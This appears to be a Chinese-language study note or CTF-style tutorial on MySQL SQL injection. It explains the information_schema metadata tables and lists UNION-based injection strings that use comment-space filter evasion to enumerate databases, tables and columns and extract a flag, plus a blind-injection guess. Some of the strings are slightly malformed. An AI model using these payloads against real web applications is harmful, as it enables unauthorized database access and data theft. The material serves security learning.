

当猜不出表名，字段名。或者无法测试字段数是时。采用强力注入

基本概念

schema：(n) -s/-ta/...men 模式,格式,样板,成规

- 图表,图解,示意图,线路图,系统图                              

schemata ：图解，略图

1.information_schema说明

- nformation_schema数据库是MySQL自带的，它提供了访问数据库元数据的方式。元数据是关于数据的数据，如数据库名或表名，列的数据类型，或访问权限等。有些时候用于表述该信息的其他术语包括“数据词典”和“系统目录”。

- information_schema是信息数据库，其中保存着关于mysql服务器所维护的所有其他数据库的信息。information_schema是一个虚拟数据库，物理上并不存在。

2.information_schema下的表

  2.1 schemata表

1.  schemata表提供了当前mysql实例中所有数据库的信息。

1. schema_name 数据库名

 2.2 tables表

1.  tables表提供了关于数据库中的表的信息（包括视图）。详细表述了某个表属于哪个schema，表类型，表引擎，创建时间等信息

1. 

| table\_schema | 数据库名称 | information\_schema |
| - | - | - |
| table\_name | 表名 |  tables表，属于information\_schema数据库 |
| version | version |  |

2.3 columns表

1.   columns表提供了表中的列信息。详细表述了某张表的所有列以及每个列的信息。是show columns from schemaname(数据库名).tablename(表名)的结果取之此表

2.5 user_privileges表（用户权限表）

1.  user_privileges（用户权限）表给出了关于全程权限的信息。该信息源自mysql.user授权表。是非标准表

常用注入语句及分析

1.查询所有数据库

/**/union/**/select/**/schema_name/**/from/**/information_schema.schemata/**/where/**/'1'='1

2.查询所有表

/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1

2.1查询当前数据库所有表

/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/table_schema=(select database() )'1'='1

3.查询所有列

/**/union/**/select/**/column_name/**/from/**/information_schema.columns/**/where/**/'1'='1

3.1查询指定表的所有列

/**/union/**/select/**/column_name/**/from/**/information_schema.columns/**/where/**/table_schema='student'/**/'1'='1

4.查询目标列中字段

/**/union/**/select/**/flag/**/from/**/web1.flag/**/where/**/'1'='1

盲注，猜解数据库名，表名

进行猜解表名： 方法一：1' and exists(select count(*) from 表名) > 0 #

